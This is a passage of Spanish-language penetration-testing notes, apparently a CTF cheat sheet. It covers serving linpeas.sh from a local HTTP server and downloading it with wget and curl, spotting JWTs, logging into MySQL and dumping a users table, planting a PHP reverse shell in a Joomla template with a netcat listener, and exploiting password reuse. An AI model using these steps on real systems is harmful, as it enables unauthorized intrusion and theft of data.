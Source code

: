 python3 -m http.server 80


y luego descargar una herramienta con:

wget http://172.17.0.1:80/linpeas.sh

curl -O http://172.17.0.1:80/linpeas.sh

-------------------------------------------------------------------------------

## 25.- Puedo identificar un JWT cuando empieza con:

ey.........

luego entramos en la web de jwt.io y vemos más datos.

-------------------------------------------------------------------------------

## 26.- Iniciar sesón en mysql:

mysql -h 172.17.0.1 -u username --password=contraseña

mostrar bases de datos:

SHOW DATABASES;

ejemplo:

twitxdb

USE  twitxdb;

mostrar tablas

SHOW TABLES;

ejmplo

users

SELECT * from users;

salir

EXIT;

-------------------------------------------------------------------------------

## 27.- JOOMLA

Intrusión:

System > Templates > Administrator Templates > Atun Details and Files y editamos el archivo index.php, modificamos el archivo por una revers shell en php, esto implica colocar netcat en escucha.

-------------------------------------------------------------------------------

## 28.- Muchas veces los usuarios usan una sola contraseña para la mayoria de sus accesos, como por ejemplo la contraseña para su acceso de base de datos también la pueden utilizar para iniciar sesión en una app importante.
